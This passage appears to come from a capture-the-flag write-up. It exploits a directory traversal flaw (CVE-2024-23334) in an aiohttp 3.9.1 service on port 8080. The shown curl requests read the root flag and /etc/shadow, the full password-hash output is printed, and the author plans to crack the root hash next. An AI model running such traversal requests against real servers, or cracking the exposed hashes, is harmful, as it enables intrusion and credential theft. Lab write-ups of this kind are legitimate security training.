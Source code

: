 The service running on port 8080 uses aiohttp version 3.9.1, which is vulnerable to a directory traversal attack: **[CVE-2024-23334](https://github.com/ox1111/CVE-2024-23334)**. By exploiting this vulnerability, I was able to retrieve the root flag directly from the server: I also used this directory traversal method to access the /etc/shadow file, which contained hashed passwords for further analysis. Summary and Next Steps

```shell
┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt
6401b9e5a23e0b20fecead6965d9f51e
┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../etc/shadow
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::

```

With the root flag acquired, I have successfully completed the primary objectives. However, as a final step, I may attempt to crack the root password hash from the /etc/shadow file to obtain full root access.
